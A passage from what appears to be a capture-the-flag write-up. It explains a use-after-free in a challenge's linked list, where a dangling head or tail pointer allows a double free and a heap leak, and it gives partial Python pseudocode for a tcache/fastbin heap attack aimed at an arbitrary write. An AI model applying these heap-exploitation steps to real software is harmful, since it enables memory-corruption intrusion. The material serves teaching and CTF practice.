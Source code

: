 Example:

```
head = A
tail = A
```

If now we pop from the front:

```
head = NULL
tail = A
```

tail now points to a freed `Link` struct. (a pop back now would cause a double free).

Similarly if we pop from the back:

```
head = A
tail = NULL
```

head now points to a freed `Link` struct (a pop front now would cause a double free).

When printing the linked list the list is walked starting from the head pointer,
so to get an info leak we want this case:

```
head = A
tail = NULL
```

Using these primitives we used a fastbin attack to obtain an arbitrary write on the heap

### Fastbin attack pseudocode

```python
# The list initially has 11 elements
# remove them all starting from the tail of the linked list
for _ in range(11):
    remove_last_measurement()

# At this point the head pointer is freed, we can get an heap leak
heap_leak = list_measurements()[0][0]

# This add will overewrite the UAFd head,
# fixing the list
add_measurement(0x1337, 0, 0, 0)
# List : A <-> A, and 6 elements in 0x40 tcache

# Drain tcache
for i in range(8):
    add_measurement(u64(p8(0x41+i)*8), 0, 0, 0)

# Fill tcache
for _ in range(8):
    remove_last_measurement()
# List: A <-> A, and 0x40 tcache is full

remove_first_measurement()
# List: NULL <-> A (free)

for i in range(7):
    add_measurement(u64(p8(0x41+i)*8), 0, 0, 0)
# now 0x40 tcache is empty

add_measurement(u64(p8(0x41+i)*8), 0, 0, 0)
# List: NULL <-> A <-> ... (7) ... <-> A

```